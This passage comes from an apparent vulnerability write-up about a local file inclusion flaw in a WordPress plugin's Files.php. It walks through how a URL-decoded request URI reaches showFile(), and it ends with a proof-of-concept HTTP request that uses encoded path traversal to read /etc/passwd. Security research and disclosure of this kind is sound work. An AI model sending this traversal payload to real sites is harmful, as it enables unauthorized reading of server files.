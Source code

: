 So we have the necessary conditions for LFI to occur; we need to find the call flow to `showFile()`

```php {filename="Files.php v5.3.02" hl_lines=[3,7,10]}
public function maybeShowNotFound() {
    //If the file doesn't exist
    //show the file content
    if ( is_404() ) {
        $this->showFile( $this->getCurrentURL() );
    } else {
        $this->maybeShowLogin( $this->getCurrentURL() );
    }

}
```

`showFile()` is called by `maybeShowNotFound` when the client requests a non-existent resource, with the parameter being the result of `getCurrentURL()`.

```php {filename="Files.php v5.3.02" hl_lines=[8]}
public function getCurrentURL() {
    $url = '';

    if ( isset( $_SERVER['HTTP_HOST'] ) ) {
        // build the URL in the address bar
        $url = is_ssl() ? 'https://' : 'http://';
        $url .= $_SERVER['HTTP_HOST'];
        $url .= rawurldecode( $_SERVER['REQUEST_URI'] );
    }

    return $url;
}
```

The `URI` from `$_SERVER['REQUEST_URI']` is decoded and concatenated into `$url` to return.

We placed a debugger in `showFile()` and sent a request to a non-existent resource.

```http
GET /x/wp-activate.php? HTTP/1.1
Host: localhost
```

The debugger hit `showFile()`.

{{< figure src="debug1.png" caption="Debugger hit `showFile()`" >}}

## Exploit

### Proof of Concept (PoC)

Send a request with the LFI payload

```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```